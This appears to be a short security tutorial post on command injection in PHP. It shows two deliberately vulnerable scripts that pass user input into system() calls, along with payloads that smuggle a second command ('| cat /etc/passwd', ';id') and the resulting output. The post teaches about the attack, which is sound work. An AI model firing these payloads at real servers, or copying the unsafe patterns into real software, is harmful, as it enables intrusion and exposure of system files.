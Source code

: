 ```yaml
---
layout: post
title: "[Web]Command Injection"
date: 2018-12-26 23:18:02 +0800
categories: [security,web]
tags: [security,web]
---
```


### **Example 1**
```php
<?php
$dir = $_GET["dir"];
if (isset($dir))
{
echo "<pre>";
system("ls -al ".$dir);
echo "</pre>";
}
?>
```
<pre>
payload: http://localhost/ex1.php?dir=| cat /etc/passwd
</pre>

### **Example 2**
```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```
#### Request
<pre>payload: http://127.0.0.1/delete.php?filename=bob.txt;id</pre>

#### Response

<pre>
Please specify the name of the file to delete

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
</pre>

---


```
命令注入攻擊PHP中可以使用下列5個函數來執行外部的應用程序或函數
system、exec、passthru、shell_exec、``(與shell_exec功能相同)函數原型

string system(string command, int &return_var)

command 要執行的命令

return_var 存放執行命令的執行後的狀態值

string exec (string command, array &output, int &return_var)

command 要執行的命令

output 獲得執行命令輸出的每一行字符串

return_var 存放執行命令後的狀態值

void passthru (string command, int &return_var)

command 要執行的命令

return_var 存放執行命令後的狀態值

string shell_exec (string command)

command 要執行的命令
```


參考來源<br />
[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)